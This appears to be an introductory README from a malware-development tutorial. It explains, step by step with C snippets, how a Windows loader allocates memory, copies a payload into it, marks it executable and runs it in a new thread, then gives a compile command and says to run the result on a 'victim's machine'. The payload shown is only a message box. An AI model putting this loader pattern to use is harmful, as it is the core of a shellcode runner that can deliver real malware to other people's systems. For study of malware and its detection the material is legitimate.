


# 01-intro

A simple malware in C that will launch our payload: `Hello world` messagebox.   

If you want to run payload in the memory of the process (current), we have to do couple of things. We have to create a new memory buffer, copy our payload into the buffer, and a start executing this buffer.    

The first we do we allocate new memory region in a process and we store the address in `mem` variable:    

```cpp
mem = VirtualAlloc(0, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

As you can see, memory region is readable and writeable.    

Then "copy" our payload to this memory buffer:    

```cpp
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
```

And then we set our buffer to be executable:    

```cpp
operation_status = VirtualProtect(mem, sizeof(my_payload), PAGE_EXECUTE_READ, &old_protect);
```

Finally, run our payload as the separate new thread in a process:    

```cpp
if ( operation_status != 0 ) {
  // execute the payload
  th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) mem, 0, 0, 0);
  WaitForSingleObject(th, -1);
}
```

Compile example:    

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

Run on victim's machine (Windows 10/Windows 11):    

```powershell
.\hack.exe
```

    

As we can see, everything is worked as expected.    